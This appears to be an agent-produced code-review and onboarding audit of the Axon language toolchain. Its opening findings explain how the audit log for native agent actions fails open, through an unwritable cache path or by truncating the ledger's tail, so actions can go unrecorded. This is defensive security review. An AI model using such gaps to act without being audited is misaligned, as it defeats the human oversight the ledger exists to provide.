Neither axon-rt nor axon-ai references axon-audit or AXON_AI_REPLAY (grep confirms zero hits); only interp/builtins.rs wires the R28 hash-chained ledger (append_ai_call, AXON_AUDIT_LEDGER) and the F2 replay cache. So a native `axon build` binary makes AI/fs/net/exec calls with (a) no tamper-evident ledger entries even when AXON_AUDIT_LEDGER is set (silently ignored — worse than refusing), and (b) no replay memoization, so the F2 'exactly reproducible AI run' guarantee silently does not hold for native artifacts. Meanwhile native @[agent] auditing goes through a SECOND, unchained store (provenance.jsonl via __axon_log_agent_action, provenance.rs:353) whose failures are all swallowed (`let _ =` / early `return` on create_dir_all failure) — so the R4 §4.3 'a native agent cannot act without the action being audited (un-opt-out-able)' claim is fail-open: point XDG_CACHE_HOME at an unwritable path and every action logs nothing while the program proceeds. Two divergent audit stores with different integrity properties is a duplicated source of truth that will drift.

**Recommendation:** Either (preferred) route native capability-bearing externs through axon-audit's append_global (axon-rt can depend on axon-audit; codegen already emits per-call hooks), honoring AXON_AUDIT_LEDGER identically to interp and making agent-action logging fail-closed (or at least loudly warn once), or make `axon build` refuse/warn when AXON_AUDIT_LEDGER / AXON_AI_REPLAY are set so the gap is visible instead of silent.


#### [MEDIUM] Audit ledger: suffix truncation is undetectable and the global ledger fails open
*crates/axon-audit/src/lib.rs:349* · kind: bug · reporter confidence: high

The crate doc claims 'tampering, reordering, and deletion detectable', but `verify_chain` can only detect interior deletion/modification: deleting the LAST k lines of the JSONL file leaves a perfectly valid shorter chain (each remaining entry still hashes correctly, seq is still 0..n), so an attacker who did a bad action last can simply truncate the tail — the existing `missing_entry_fails_verification` test only deletes a middle line. Additionally the global ledger fails open twice: `set_ledger_path` (line 399) swallows an open failure with a single eprintln and leaves the ledger None, after which `append_global` (409) returns `Ok(0)` for every call — 'auditing enabled but path unwritable' silently degrades to no auditing, and callers cannot distinguish 'recorded at seq 0' from 'not recorded'.

**Recommendation:** Record an external head commitment (e.g. write the latest entry_hash+seq to a separate sidecar/stdout at flush, or fold the expected count into a signed run summary) so tail truncation breaks verification; make append_global return a distinguishable NotConfigured variant (or Err) and decide explicitly, per the fail-closed posture of the rest of the project, whether an unopenable ledger should abort the run.


#### [LOW] __axon_ai_complete does not validate prompt ptr/len, unlike every extract bridge
*crates/axon-ai/src/lib.rs:256* · kind: improvement · reporter confidence: high

`__axon_ai_complete` calls `from_raw_parts(prompt_ptr, prompt_len as usize)` with no null/negative check; a negative prompt_len becomes a ~2^64 slice length (immediate UB). All five `__axon_ai_extract_*` bridges guard `prompt_ptr.is_null() || prompt_len < 0` first (e.g. line 783). The codegen contract makes this unreachable today, but the asymmetry within one file invites the bug the guards elsewhere were added for.

**Recommendation:** Add the same null/negative guard returning the write_err_out path, matching the extract bridges.


#### [LOW] In-memory provenance store grows without bound and __axon_select busy-polls
*crates/axon-rt/src/provenance.rs:108* · kind: improvement · reporter confidence: high

Every @[adaptive] return pushes a Record into a process-global Vec that is never trimmed (provenance.rs:108-121), and goal_run's best_input_for/provenance_records_for do O(n) scans — a long-running native optimizer loop (the intended use) degrades in memory and per-iteration cost. Separately, `__axon_select` (crates/axon-rt/src/lib.rs:192) spin-polls all channels with a 100µs sleep, burning a core while idle; it also cannot guarantee the returned index still has data by the time the arm recvs if another consumer drains it (the arm then blocks). Both are documented as v1 simplifications; flagging as the concrete scale seams.

**Recommendation:** Cap or ring-buffer the in-memory store (the JSONL file already holds full history), index records per fn-name in a HashMap, and move select to Condvar-based waiting when multi-consumer channels become real.


#### [LOW] Browser write() shim drops stderr, so panic/verify/refine diagnostics are invisible on wasm32-unknown-unknown
*crates/axon-rt/src/lib.rs:1193* · kind: improvement · reporter confidence: medium

The browser `write` shim forwards only fd 1 to `axon_host_write` and silently discards fd 2 while returning `count` as if written (lines 1191–1198). All the exit-code-bearing failure paths (`__axon_arith_panic`, `__axon_bounds_panic`, `__axon_refine_panic`, `__axon_verify_panic`) emit their one-line diagnostic on stderr, so in the browser a program that traps shows no reason at all — the code says a console.error import is 'the follow-on'. The exit code survives; the human-readable contract does not.

**Recommendation:** Add a second host import (axon_host_write_err → console.error) or multiplex fd 2 through the existing import with a stream tag; small change, large debuggability gain for the flagship browser demo.

---
## Pass 5 — product-manager review (run `wf_fd75a2a7`, 4 agents, high effort)
Lens: *"we are announcing this publicly next week."* Every agent worked from a real fresh clone of `main` (HEAD `0bfa74d`) and followed only the checked-in docs.
**Verdict: `not-ready` on all four dimensions.**

### First hour — clone → build → hello world — 14 findings (0C/3H/5M/6L)
> **Verdict:** not-ready
>
> I did a real fresh clone into scratchpad (`git clone --single-branch --branch main`, HEAD 0bfa74d), built from scratch, and ran every command in README.md and CLAUDE.md verbatim.
> 
> What genuinely works — and it is a lot: the documented fast build is clean and fast (16.06s from scratch, zero warnings from axon code). `axon run examples/hello.ax` prints "Hello, Axon!" first try. All 7 README Language-Tour snippets type-check AND run correctly (the concurrency snippet really does return 45, fibonacci really does assert_eq 55); CLAUDE.md's Quick Reference block checks/runs/tests clean including both `@[test]` forms. 32/32 `examples/stdlib/*.ax` pass their test suites. All 169 top-level examples pass `axon check`. `axon --help` is excellent and complete. Error hints are genuinely good (the AXON_PATH hint literally tells you the exact command to fix it). And `./flagship --ci` — the README's headline "see it run in one command" — runs end-to-end from a cold clone in one shot, exit 0, all 4 sections, including building axon-os/axon-vm and driving real Docker. That demo is the strongest asset in the repo and it does not lie.
> 
> Why not-ready anyway: three independent first-hour blockers, each hit by following the docs exactly.
> 
> (1) The documented Phase-10 flow's last step is broken 100% of the time. `axon deploy examples/goals/hello-goal.ax` is line 40 of CLAUDE.md's command block and the thing CLAUDE.md calls "Acid test 2 (First Goal) … demonstrable end-to-end". It always fails with an internal arity panic. I confirmed it on both the checked-in example and on a file I produced by running the three preceding documented steps — the tool's own generated skeleton is incompatible with the tool's own deploy gate.
> 
> (2) LLVM 17 is a hard prerequisite with zero documentation. `grep -i "apt install|brew install|LLVM_SYS|llvm-17|prerequisite"` across README/CLAUDE.md/STATUS.md/BUILD_RESOLVED.md returns nothing. There is no rust-toolchain.toml. I proved the failure mode by shadowing llvm-config: the CLAUDE.md-documented `cargo build -p axon-core` dies in an upstream build-script panic with no actionable guidance. The README's first sentence is "compiles to native code via LLVM 17."
> 
> (3) `cargo test` — CLAUDE.md line 23, "run all unit + integration tests" — exits 101 on a fresh clone, but only when ANTHROPIC_API_KEY is set. That is precisely the audience of an AI-first language whose own README tells you to set that key. I isolated it to a single misclassified test corpus entry and verified both directions (key set → FAILED; key unset → ok).
> 
> Everything below was reproduced on the fresh clone unless noted. I checked two suspicions against source before reporting and dropped both: `axon check` emitting JSON is deliberate TTY-detection (`use_json = json_flag || !stderr().is_terminal()`) and renders fine under a PTY — not a finding; and the `git clone` failure I first hit was a local `worktree-agent` ref artifact, absent from the GitHub remote (`git ls-remote` clean) — not a finding.

#### [HIGH] Documented Phase-10 flow always fails at its final step: `axon deploy` panics on arity for every generated goal
*crates/axon-core/src/interp.rs:823* · kind: `broken-documented-flow` · confidence: high

CLAUDE.md line 40 documents `axon deploy examples/goals/hello-goal.ax`, and line 248 claims "Acid test 2 (First Goal) is now demonstrable end-to-end". It never succeeds.

I first walked all four documented steps in a clean scratchpad dir on a fresh copy of the goal file. Steps 1-3 are perfect:

  $ axon intent compile hello-goal.md
  compiled hello-goal.md -> hello-goal.ax (3415 bytes)          rc=0
  $ axon ast review hello-goal.ax
  AST review: hello-goal.ax / 7 function(s) / no type errors    rc=0
  $ axon ast approve hello-goal.ax
  approved: hello-goal.ax (hash e95f01802c9a)                   rc=0
  $ axon redteam hello-goal.ax
  redteam: hello-goal.ax - no redteam_check function found (pass)  rc=0

Step 4 blows up:

  $ axon deploy hello-goal.ax
  axon: panic in assert_deployable: assert_deployable: expected 1 args, got 0
  deploy: hello-goal.ax - BLOCKED at gate 'assert_deployable' (exit 101)
    stages run: assert_deployable
  rc=1

Identical on the checked-in file CLAUDE.md names verbatim (`examples/goals/hello-goal.ax`). So the newcomer cannot dismiss it as their own file being wrong.

Root cause is a design mismatch between two halves of the same tool. crates/axon-core/src/main.rs:5363-5364 declares the gate list:

  const HIGH_RISK_GATES: &[&str] = &["simulate", "stress", "redteam_check", "assert_deployable"];
  const LOW_RISK_GATES:  &[&str] = &["redteam_check", "assert_deployable"];

and every gate is invoked nullary - crates/axon-core/src/interp.rs:823, inside `run_named_fn_as_bool`:

  let result = interp.call_fn(f, vec![]);

There is no arity check before the call. But `axon intent compile` - the previous documented step - always generates `fn assert_deployable(score: i64) -> i64` (confirmed at examples/goals/hello-goal.ax:78 and in my freshly generated skeleton). So the surface compiler emits a 1-ary gate and the deploy runner only ever calls 0-ary gates.

Blast radius across the checked-in goal corpus: brief-gate.ax deploys fine (no assert_deployable); redteam-goal.ax blocks at redteam_check first (by design - that's Acid Test 4) but also carries `fn assert_deployable(score: i64)` at line 34, so it would hit the same wall; hello-goal.ax - the one that is documented and named as the acid test - fails outright. Any goal a user creates via the documented `intent compile` path inherits the 1-ary signature and is undeployable.

**Recommendation:** Decide the gate calling convention and make both halves obey it. Cheapest correct fix: in `run_named_fn_as_bool` (interp.rs:806), inspect `f.params` and pass the score/appropriate argument when arity is 1 (the surface compiler already computes `best` and passes it at hello-goal.ax:88 - `let _ = assert_deployable(best)`), and hard-error with a clear message rather than a panic when arity is neither 0 nor 1. Alternatively change the skeleton generator to emit a nullary `assert_deployable()` that reads the score itself. Either way, add an end-to-end test that runs the full documented four-verb sequence (`intent compile` -> `ast review` -> `ast approve` -> `deploy`) on a generated goal and asserts exit 0 - that sequence is the product's headline flow and currently nothing covers it.

#### [HIGH] LLVM 17 is an undocumented hard prerequisite; the documented default build dies in a raw upstream panic
*README.md* · kind: `undocumented-prerequisite` · confidence: high

There is no Prerequisites/Install section anywhere. On the fresh clone:

  $ grep -rn -i "apt install|apt-get install|brew install|LLVM_SYS|llvm-17|prerequisite|Prerequisites" README.md CLAUDE.md STATUS.md BUILD_RESOLVED.md
  (no output)
  $ ls rust-toolchain*
  ls: cannot access 'rust-toolchain*': No such file or directory

Yet README.md line 3 opens with "compiles to native code via LLVM 17", and CLAUDE.md line 52 tells you plainly: "`cargo build -p axon-core` produces the native `axon` compiler".

I proved the newcomer failure by shadowing llvm-config with exit-127 stubs on PATH (simulating a box with Rust and cc but no LLVM dev package) and forcing an llvm-sys rebuild:

  $ cargo build -p axon-core
     Compiling llvm-sys v170.4.0
  error: failed to run custom build command for `llvm-sys v170.4.0`
  Caused by:
    process didn't exit successfully: .../build-script-build (exit status: 101)
    --- stderr
    thread 'main' panicked at .../llvm-sys-170.4.0/build.rs:132:21:
    Failed to search PATH for llvm-config: "llvm-config" "--version"
    note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace

That is the entire diagnostic the newcomer gets. No mention of Axon, no mention of which LLVM version, no install command, no pointer to LLVM_SYS_170_PREFIX. The `-p axon-core` default features include codegen, so this is the *default* build for anyone who doesn't spot the `--no-default-features` variant.

On a host that does have it, it works fine and fast - llvm-config-17 -> 17.0.6, LLVM_SYS_170_PREFIX unset (found via PATH), `cargo build -p axon-core` finished in 16.40s, and `axon build examples/hello.ax` then produced a working 38 MB native binary printing "Hello, Axon!" (rc=0). So the only thing standing between a newcomer and this working path is a missing paragraph.

This compounds with a known hazard already in the project's own memory notes: the Debian/Ubuntu `llvm` metapackage resolves to 18, which does not satisfy llvm-sys 170.

**Recommendation:** Add a short Prerequisites section to README.md immediately above Quick Start: Rust (state the minimum), a C toolchain for linking, and - for the native path only - LLVM 17 with the exact package name (`apt install llvm-17-dev libpolly-17-dev` / `brew install llvm@17`), an explicit warning that the bare `llvm` metapackage installs 18 and will not work, and the `LLVM_SYS_170_PREFIX` escape hatch. Add a `rust-toolchain.toml` so the compiler version is pinned. Lead the section with the fact that the interpreter path (`--no-default-features`) needs none of this - that is the genuinely great first-run story and it is currently buried below the LLVM claim.

#### [HIGH] `cargo test` fails on a fresh clone whenever ANTHROPIC_API_KEY is set - the exact audience for an AI-first language
*scripts/wasm_parity.sh:50* · kind: `flaky-test-harness` · confidence: high

CLAUDE.md line 23 documents `cargo test` as "run all unit + integration tests". On the fresh clone it exits 101.

  CARGO_TEST_EXIT=101
  test result: FAILED. 418 passed; 1 failed; 0 ignored; 0 measured; 0 filtered out; finished in 552.66s
  failures:
      wasm_interp_matches_native_on_pure_compute
  error: test failed, to rerun pass `-p axon-core --test cli_run`

Aggregate across all 11 test binaries: 1107 passed, 1 failed. The single failure:

  thread 'wasm_interp_matches_native_on_pure_compute' panicked at crates/axon-core/tests/cli_run.rs:13660:5:
  wasm/native parity must hold on the pure-compute corpus:
  wasm_parity: 35 pure-compute examples auto-discovered
    DIFF anthropic_stream.ax native=(code 1) wasm=(code 1)
      native stdout: stream error: http_sse_post requires the asi-runtime feature or a network-capable host
      wasm   stdout: error: ANTHROPIC_API_KEY environment variable not set

I verified it is environment-triggered, both directions, isolated:
  env -u ANTHROPIC_API_KEY cargo test ... wasm_interp_matches_native_on_pure_compute
    -> test result: ok. 1 passed; 0 failed  (EXIT=0)
  ANTHROPIC_API_KEY=... cargo test ... wasm_interp_matches_native_on_pure_compute
    -> test result: FAILED. 0 passed; 1 failed  (EXIT=101)

Root cause is in scripts/wasm_parity.sh:50. The corpus is auto-discovered by excluding host-touching builtins, and the comment at lines 42-49 asserts the corpus "touches NONE of the host interface (fs/env/AI/threads/exec/random/time)". The regex does not match what the comment claims:

  HOST_BUILTINS='read_file|write_file|read_line|ai_complete|ai_extract|exec|spawn|chan_|random_|now_ms|temporal_now|goal_run|agent_detect|agent_uncertainty|agent_trace'

`env_var` and the entire `http_get|http_post|http_sse_post` family are absent - so "env" is claimed but not filtered, and network is neither claimed nor filtered. `examples/anthropic_stream.ax` uses `env_var` (x1) and `http_sse_post` (x2) and is therefore classified as pure compute. Its output then depends on ambient env, and the native and wasm builds resolve the asi-runtime feature differently, so they diverge.

Four examples are misclassified this way, all reachable by the same regex gap: anthropic_stream.ax, http_get.ax, http_sse.ax, trainloop_stream.ax. The other three currently pass only because both sides happen to fail identically - the corpus is one behavior change away from more flakes.

Secondary observation for the newcomer: this one test takes 552s of a ~15 min `cargo test`, with no indication in the docs that the suite is that long or that it silently requires the wasm32-wasip1 target and wasmtime (wasm_parity.sh:28-32 skip gracefully if absent, which is good).

**Recommendation:** Add `env_var|http_get|http_post|http_sse` to the HOST_BUILTINS exclusion regex in scripts/wasm_parity.sh:50 so the corpus matches the invariant its own comment states. Better still, make the classifier fail closed: derive the host-builtin set from the compiler's builtin effect-row catalog (`builtin_effect_row`, which already exists for Phase-6 effects) instead of a hand-maintained regex that silently under-approximates - the comment already promises "no hand-maintained list to drift" but the regex is exactly that. Separately, note the wasm/wasmtime and runtime expectations of `cargo test` in the docs, or point newcomers at `cargo test -p axon-core --no-default-features` as the quick check.

#### [MEDIUM] `axon build`'s error message is stale and actively misleading: cites a deleted file and contradicts every status doc
*crates/axon-core/src/main.rs* · kind: `stale-error-message` · confidence: high

A newcomer who follows README's fast build then tries the native path documented in CLAUDE.md line 33 gets:

  $ ./target/debug/axon build examples/hello.ax
  error: `axon build` (native codegen) requires building axon with the `codegen` feature.
  note: the native codegen build is currently very slow (see BUILD_DIAGNOSIS.md).
  hint: use `axon run <file.ax>` - it executes via the interpreter, no codegen needed.
  rc=1

Both the note and its citation are wrong:

  $ ls BUILD_DIAGNOSIS.md
  ls: cannot access 'BUILD_DIAGNOSIS.md': No such file or directory

It was archived to `.archive/superseded-2026-06/` in commit 6cd1c18 ("repo hygiene ... archive superseded docs"), which the .gitignore lists — but those seven files were already TRACKED, and .gitignore does not affect tracked files, so they are in HEAD and present in every clone (`git ls-tree -r HEAD .archive/superseded-2026-06/`). Correction 2026-08-04: the "user cannot open it" conclusion was wrong. The real exposure was the UNtracked remainder of `.archive/` — including `findings.json`, which this audit's own SUMMARY.md cited as its source of record while it sat outside version control; rescued to `governance/reviews/2026-08-01-triage/raw/`.

The claim itself is disproven by the repo's own docs and by measurement. BUILD_RESOLVED.md:20 says the stall was "NOT LLVM codegen (BUILD_DIAGNOSIS.md)"; CLAUDE.md line 48 says codegen "builds in ~3s"; STATUS.md's Build Health table marks native codegen green. I measured it: `cargo build -p axon-core` from scratch = 16.40s, and `axon build examples/hello.ax` = 6.1s wall producing a working binary.

The effect is that the message steers users away from a feature that works, using a rationale the project abandoned. Same stale text appears in `examples/asi/README.md:222` ("pathologically slow / may not finish (see BUILD_DIAGNOSIS.md)"), `ROADMAP.md:580,598`, `dev.sh:4,24,159`, and CLAUDE.md:232.

**Recommendation:** Rewrite the message to state the actual situation and the actual remedy: that this binary was built with `--no-default-features`, and that native codegen needs `cargo build -p axon-core` plus LLVM 17. Drop the "very slow" note and the BUILD_DIAGNOSIS.md reference entirely. Then sweep the remaining references (`grep -rn BUILD_DIAGNOSIS` over tracked files) - a doc that ships must not cite a doc that doesn't.

#### [MEDIUM] `axon fmt` - an advertised feature - refuses 91% of the repo's own example files
*README.md:72* · kind: `broken-promise` · confidence: high

README.md:72 lists "**Formatter** - `axon fmt` idempotent pretty-printer" as a shipped Phase-4 feature. On the very first file a newcomer would try:

  $ ./target/debug/axon fmt examples/hello.ax
  error: examples/hello.ax: refusing to format - the file contains comments, which the AST-based formatter would delete. (Comment-preserving formatting is not yet implemented; the file is unchanged.)
  rc=2

I swept every example in the fresh clone:

  examples/*.ax total=169  fmt-refused=154

154 of 169 (91%). Since essentially all real source has comments, the formatter is unusable on real code - it works only on comment-free files. The refusal itself is well-engineered (it fails safe, explains exactly why, and leaves the file untouched, which is the right call versus silently deleting comments), so this is a docs/positioning problem more than a code problem: the feature list presents as done something that cannot be applied to 91% of the project's own corpus.

Same class applies to `axon doc`, though less severely - it runs (rc=0) but on hello.ax reports "*No documented items.*" because the examples use `//` not `///`.

**Recommendation:** Either mark the formatter honestly in README ("`axon fmt` - pretty-printer; comment-preserving formatting not yet implemented, so files containing comments are refused") or move it out of the Features list into a Roadmap/Known-Limitations section until comment attachment lands. A one-line qualifier costs nothing and removes a broken promise that a newcomer discovers within minutes of reading the feature list.

#### [MEDIUM] Cargo.lock is gitignored in a workspace that ships binaries - newcomer builds are not reproducible
*.gitignore:2* · kind: `reproducibility` · confidence: high

The fresh clone has no lockfile:

  $ ls -la Cargo.lock
  ls: cannot access 'Cargo.lock': No such file or directory
  $ git ls-files | grep -i cargo.lock
  (no output)
  $ grep -n -i 'lock' .gitignore
  2:Cargo.lock

The maintainer's working tree does have one (78 KB, dated Jul 18), so the maintainer is building against a pinned graph the newcomer never receives.

This workspace publishes binaries - `axon`, `axon-os`, `axon-vm`, `axon-web`, `axon-ledger` - across 19 crates, with a heavy transitive graph (reqwest, hyper, tokio, rustls, tokio-modbus, inkwell/llvm-sys, logos, clap). Cargo's own guidance is to commit Cargo.lock for anything that produces an executable; the ignore rule is the library convention applied to an application repo.

Concrete consequence: every newcomer resolves fresh semver-compatible versions at clone time, so "works on my machine" is structurally guaranteed to drift, and any upstream yanking or semver-compatible regression breaks new users while the maintainer sees green. It also means the 16s clean-build number I measured is not something the project can promise. This interacts badly with the existing CI gap (CI runs only 4 commands, all `-p axon-core`) - there is no build that would notice the drift.

**Recommendation:** Remove `Cargo.lock` from .gitignore and commit the lockfile. Add a CI job that builds with `--locked` so dependency drift surfaces as a deliberate, reviewable change rather than a newcomer's broken clone.

#### [MEDIUM] `dev.sh` hardcodes the maintainer's cargo path and cannot run on any other machine
*dev.sh:8* · kind: `machine-specific-script` · confidence: high

`dev.sh` is executable at the repo root - highly discoverable for a newcomer looking for a dev entry point - and is referenced by no doc at all (`grep -rn dev.sh README.md CLAUDE.md STATUS.md` -> nothing). Line 8:

  CARGO=/root/.cargo/bin/cargo

All 15 cargo invocations in the script go through `$CARGO` (lines 12, 25, 30, 34, 38, 42, 105, 112, 116, 120, 132, ...), and there is no fallback whatsoever:

  $ grep -c "command -v\|which cargo\|\${CARGO:-" dev.sh
  0

On any machine where the user is not root - i.e. essentially every developer machine, where rustup installs to `$HOME/.cargo` - every subcommand (`build`, `test`, `check`, `fmt`, `clippy`, `ci`, `watch`) dies immediately on a missing binary. It only works here because this container runs as root. The script also runs under `set -euo pipefail`, so the failure is abrupt.

It additionally carries the disproven build warning in three places (lines 4, 23-24, 159), including a `build-native` subcommand that greets the user with "WARNING: native codegen build is pathologically slow and may not finish. See BUILD_DIAGNOSIS.md." - a file that does not exist in the clone, describing a stall the project fixed and measures at ~15s.

**Recommendation:** Replace line 8 with `CARGO=${CARGO:-$(command -v cargo)}` and error clearly if empty. Delete the three stale BUILD_DIAGNOSIS/"may not finish" warnings and let `build-native` just run. Then either document dev.sh in the README as the contributor entry point or delete it - an unreferenced, machine-specific script at the repo root is a trap for exactly the person exploring the tree.

#### [MEDIUM] Unbounded global provenance log: 1.7 GB here, written by every `axon run`, degrading `axon trace` to 20s
*crates/axon-core/src/main.rs:301* · kind: `unbounded-global-state` · confidence: high

Every `axon run`/`axon goal` appends to a single machine-global append-only file, `$XDG_CACHE_HOME/axon/provenance.jsonl` (main.rs:301,309-310). There is no rotation, no cap, and no documented way to inspect or clear it. On this host:

  $ ls -la /root/.cache/axon/provenance.jsonl
  -rw-r--r-- 1 root root 1757259352 Jul 31 09:38   (1.7 GB)
  $ wc -l /root/.cache/axon/provenance.jsonl
  7654138

Measured growth per run: `axon run examples/hello.ax` -> +138 bytes; 3x `examples/asi/optimize.ax` -> +435 bytes. Small per run, unbounded in aggregate - this file reached 1.7 GB purely through development.

The cost lands on a documented first-class command. CLAUDE.md line 31 presents `axon trace` as a normal thing to run; it now reads the whole file every time:

  $ time axon trace > /dev/null
  real 0m20.669s
  $ time axon trace --json > /dev/null
  real 0m22.448s

Output is 33,568 lines with no paging or default limit. A newcomer starts at zero so their first hour is unaffected - but the log is also global, not per-project, so it silently accumulates across every Axon checkout on the machine, and neither README nor CLAUDE.md mentions that `axon run` writes outside the project directory at all. For a tool whose entire pitch is auditability and containment, an undisclosed unbounded write to $HOME is a poor look.

**Recommendation:** Document the cache location and its growth in the README/CLAUDE.md env-var table (it currently documents AXON_SEED/AXON_MAX_DEPTH/etc. but never says `axon run` writes to ~/.cache). Add size-based rotation or a retention cap, add `axon trace --clear` and `--limit N` (the `--path` override already exists), and default the human view to the top N trajectories rather than 33k lines.

#### [LOW] README's Quick Start opens with three commands that cannot work - `hello.ax` does not exist
*README.md:93* · kind: `docs-error` · confidence: high

README.md:93-96, the first commands in Quick Start:

  # Run / type-check / test a file:
  ./target/debug/axon run   hello.ax
  ./target/debug/axon check hello.ax
  ./target/debug/axon test  hello.ax

There is no `hello.ax` at the repo root (the file is `examples/hello.ax`; `test.ax` is the only root-level .ax). Run verbatim on the fresh clone right after the documented build:

  $ ./target/debug/axon run hello.ax
  axon: run-id 19fb864be20-e1e895c4
  error reading hello.ax: No such file or directory (os error 2)
  rc=1

So the literal first thing a newcomer types after a successful build fails. CLAUDE.md gets this right (`axon run examples/hello.ax`, which I confirmed prints "Hello, Axon!"), so it is purely a README slip - but it lands at the single highest-traffic moment in the entire onboarding, and it makes a working toolchain look broken.

Minor related noise: `axon: run-id ...` is printed to stderr before the file is even opened, so the failure output leads with a run-id for a run that never happened.

**Recommendation:** Change the three paths to `examples/hello.ax`, or add a `hello.ax` at the repo root. Consider suppressing the run-id line until the source has been read successfully.

#### [LOW] `axon trace | head` panics with a double panic instead of exiting cleanly
*crates/axon-core/src/main.rs:647* · kind: `cli-robustness` · confidence: high

`axon trace` emits 33,568 lines by default, so piping to `head`/`less` is the natural thing to do. It panics:

  $ set -o pipefail; axon trace | head -3
  # provenance: 7347709 record(s) across 33567 (fn, source) group(s)
    recent_wins: 1 eval(s)  range [1000, 1000]  first 1000 -> last 1000  [flat]
    measured_f: 1 eval(s)  range [0.1, 0.1]  first 0.1 -> last 0.1  [flat]
  pipeline rc=101

stderr:

  thread '<unnamed>' (1717780) panicked at library/std/src/io/stdio.rs:1165:9:
  failed printing to stdout: Broken pipe (os error 32)
  note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace

  thread 'main' (1717778) panicked at crates/axon-core/src/main.rs:647:10:
  worker thread panicked: Any { .. }

Two stacked panics and exit 101 (which this project uses to mean a real runtime panic) for what is just a closed pipe. The second message, `worker thread panicked: Any { .. }`, is raw internal noise. Because output is routed through a worker thread (main.rs:647), the standard SIGPIPE remedy isn't automatic here.

**Recommendation:** Treat `ErrorKind::BrokenPipe` on stdout as a clean exit 0 (or restore default SIGPIPE at startup) rather than propagating it as a panic, and make the worker-thread join surface a real message instead of `Any { .. }`. Pairs naturally with adding a default `--limit` to `axon trace`.

#### [LOW] One mistake produces two error diagnostics, with a doubled "error:" prefix and no source snippet
*crates/axon-core/src/lib.rs:181* · kind: `diagnostics-polish` · confidence: high

Verified under a PTY (so this is the human-facing rendering, not the JSON pipe mode). Across five common newcomer mistakes:

  argument type   -> 2 diagnostics
    error: e_argtype.ax:2:20: error[E0102]: type mismatch in arg 1 of `add` (expected i64), found str
    error: e_argtype.ax:2:20: error[E0306]: argument 1 of `add` has the wrong type (expected i64), found str
  return type     -> 2 diagnostics
    error: e_ret.ax:1:17: error[E0102]: type mismatch in function body (expected i64), found str
    error: e_ret.ax:1:17: error[E0307]: return type mismatch (expected i64), found str
  wrong arity     -> 1  (E0305, good)
  unknown name    -> 1  (E0001, good)
  unknown field   -> 1  (E0401, but no line:col at all)

So the two most common type errors each report twice at the same span, differing only in wording. Every line also reads "error: <file>:<line>:<col>: error[EXXXX]:" - the word "error" twice. And although `PipelineDiagnostic` carries a `caret` field and `display()` appends it (lib.rs:181-184), no caret or source line is shown, so the newcomer gets a coordinate but never sees the offending code.

This is a known class in the project's own notes (E0102+E0306 / E0102+E0307), so it's follow-through rather than discovery - but it is what every newcomer's first compile error looks like.

**Recommendation:** Deduplicate at the emit site: when two diagnostics share (file, line, col) and describe the same mismatch, keep the one with the `help` text (E0306/E0307 carry the actionable "change the argument's type or cast with `as i64`") and drop the bare E0102. Drop the redundant `error: ` prefix when the rendered form already begins with `error[EXXXX]`. Populate `caret` so the source line is shown - the plumbing already exists. Give E0401 a span.

#### [LOW] Advertised counts in README and STATUS.md are stale by 4.5x and 7%
*README.md:290* · kind: `stale-docs` · confidence: high

README.md:290 states: "**Test suite**: 246 tests (189 unit + 57 integration), all passing."

Measured on the fresh clone via `cargo test` (sum over all 11 test binaries): 1107 passed, 1 failed = 1108 total. So the count understates reality by 4.5x, and "all passing" is false in the default environment for the target audience (see the ANTHROPIC_API_KEY finding).

STATUS.md:38-42 ("Last updated: 2026-06-28") claims 158 `.ax` examples; actual is 170 (`find examples -name '*.ax' | wc -l`).

Underselling a test suite is a benign error by itself, but README points newcomers at STATUS.md "for current state", and both numbers being wrong in the same direction teaches a reader to distrust the numeric claims - which matters for a project whose pitch rests on verifiable claims ("~28 of 40 CVE-Bench CVEs", the four-layer guarantee). The flagship demo actually substantiates its claims when run, so the sloppy counts undersell genuinely good work.

**Recommendation:** Generate these numbers rather than hand-maintaining them - a tiny CI step that rewrites the counts (or simply drop the precise figures in favor of "all tests green in CI" plus a badge). At minimum correct the two numbers and the "all passing" claim now.

#### [LOW] Four `examples/asi/` demos - the documented "public face" - fail `axon check` out of the box
*examples/asi/bandit_ucb.ax* · kind: `example-friction` · confidence: high

CLAUDE.md:264 says "`examples/asi/` is the public face, not `examples/fibonacci.ax`", and the ASI Demo Set table steers newcomers there. Four of them fail immediately:

  axon check examples/asi/bandit_ucb.ax          rc=2  (E0901)
  axon check examples/asi/persistent_bandit.ax   rc=2  (E0901)
  axon check examples/asi/safe_bandit.ax         rc=2  (E0901)
  axon check examples/asi/safe_self_improve.ax   rc=2  (E0901)

(`contained_violation.ax` also fails, with E1001 - that one is intentional, it demonstrates a refusal.)

The cause is an unset module search path, and the error message is genuinely excellent - it lists what it searched and hands over the exact fix:

  E0901: module `bandit` not found
    searched:
      /root/.axon/lib/bandit.ax (not found)
      .../target/debug/../lib/axon/bandit.ax (not found)
    hint: AXON_PATH is unset - set it to the directory containing `bandit.ax` (e.g. `AXON_PATH=examples/stdlib axon run ...`)

The hint works exactly as written - `AXON_PATH=examples/stdlib axon check examples/asi/bandit_ucb.ax` -> rc=0 (one W1210 lockfile warning). But the E0901 is followed by 5+ cascading E0001 "cannot find name `bandit_new`" errors that bury it, and `AXON_PATH` appears nowhere except one row of CLAUDE.md's env-var table - not in README, not in `examples/asi/README.md`.

**Recommendation:** Suppress the cascading E0001s when the module they depend on already failed to resolve, so the actionable E0901 hint is the last thing on screen. Document AXON_PATH in `examples/asi/README.md` next to the demo list, or better, make examples that import stdlib modules resolve `examples/stdlib` relative to the source file so they just work.

#### [LOW] Newcomer-facing output leaks raw Rust Debug formatting, truncated mid-token
*crates/axon-core/src/main.rs* · kind: `output-polish` · confidence: high

`axon ast review` - step 2 of the documented Phase-10 flow - prints the AST's Rust `Debug` representation for `@[verify]` attributes, cut off mid-literal:

  $ axon ast review hello-goal.ax
  AST review: hello-goal.ax
    7 function(s)
    ...
    fn assert_deployable(score: i64) -> i64
      @[verify]: BinOp { op: GtEq, left: Ident("score"), right: Literal(Int(2
    fn main() -> i64
    no type errors

The line ends at `Literal(Int(2` - an unbalanced, truncated Rust debug struct. A newcomer reviewing what they are about to approve sees compiler internals rather than the predicate `score >= 2...`.

Separately, the README's key-free demo emits 30 copies of one warning. `AXON_AI_MOCK=1 axon goal examples/goals/hello-goal.md` produces 3 useful stdout lines and 30 stderr lines, all identical:

  warning: [W1310] AI call in `try_variant` has no @[ai(policy)] - cost is unmetered and the call is harder to audit

One per optimizer iteration. The actual result is buried: "best score: 100 (target 280) / deploy gate: passed".

